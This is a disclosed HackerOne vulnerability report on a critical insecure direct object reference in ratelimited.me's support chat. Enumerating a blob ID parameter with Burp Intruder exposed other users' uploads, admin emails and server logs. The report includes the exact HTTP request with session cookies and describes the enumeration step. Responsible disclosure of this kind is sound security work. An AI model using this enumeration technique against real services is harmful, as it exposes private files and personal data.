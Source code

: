 # Local File Download

## Report Details
- **Report ID**: 345162
- **URL**: https://hackerone.com/reports/345162
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-04-30T19:54:48.684Z
- **Disclosed**: 2019-01-01T15:09:04.608Z

## Reporter
- **Username**: z0mb13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ratelimited

## Vulnerability Information
**Summary:** This bug affects suuport.ratelimited.me and can be used by attackers to download local file from your servers including your emails, and files uploaded by your admins and other users.

**Description:** While starting a conversation with your support agent, I noticed an option to upload a file. And after it was being uploaded it was included with a "blob_id" parameter. it is vulnerable and is leading to download of all the files on your support server.

## Steps To Reproduce:

  * Follow the above steps as mentioned in description to get to the request mentioned below.]

```
GET /chat/send-attach/583-5PH467W8RA2NCWJ?__sid=583-5PH467W8RA2NCWJ&send_blob_id=485&_=1525115609706 HTTP/1.1
Host: support.ratelimited.me
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:59.0) Gecko/20100101 Firefox/59.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://support.ratelimited.me/widget/chat.html?dpsid=583-5PH467W8RA2NCWJ&parent_url=https%3A%2F%2Fsupport.ratelimited.me%2Fprofile
X-Requested-With: XMLHttpRequest
Cookie: __cfduid=debed713d869308c24159d6b0ce4df2481525076018; dpsid=583-5PH467W8RA2NCWJ; dpvc=11941-DH6W43CBT3WHJQN; __unam=c0d18f2-16315a5f2ac-ba1665a-242; __utma=138098738.1674211735.1525076589.1525107067.1525114365.3; __utmc=138098738; __utmz=138098738.1525076589.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); dpvut=X635APM2; dpchat_sid=583-5PH467W8RA2NCWJ; __utmb=138098738.29.10.1525114365; __utmt=1; dpchatid=51
Connection: close
```

  * After this I used a simple Intruder in the Burp suite to automate my requests to find out which blob_id numbers are giving a 200 Response. Attached a screenshot of the same.

  * I was able to read your personal emails and all the server logs, also all the files uploaded by others and admins. I was also able to join a ticket due to an email which leaked the joining link.
The irony is I was also able to read the email sent by Hackerone support to start this program :D

No harm has been done, you can remove the screenshots from here after you fix this bug.

## Supporting Material/References:

  * Have attached all the screenshots below which shows how harmful this could have been.

## Impact

All the files on the server are being leaked incuding personal emails and logs.

## Attachments
- Screen_Shot_2018-05-01_at_1.05.13_AM.png
- Screen_Shot_2018-05-01_at_1.02.43_AM.png
- Screen_Shot_2018-05-01_at_1.08.11_AM.png
- Screen_Shot_2018-05-01_at_1.08.02_AM.png
- Screen_Shot_2018-05-01_at_1.11.36_AM.png
- Screen_Shot_2018-05-01_at_1.10.04_AM.png
- Screen_Shot_2018-05-01_at_1.13.56_AM.png
- Screen_Shot_2018-05-01_at_1.15.32_AM.png
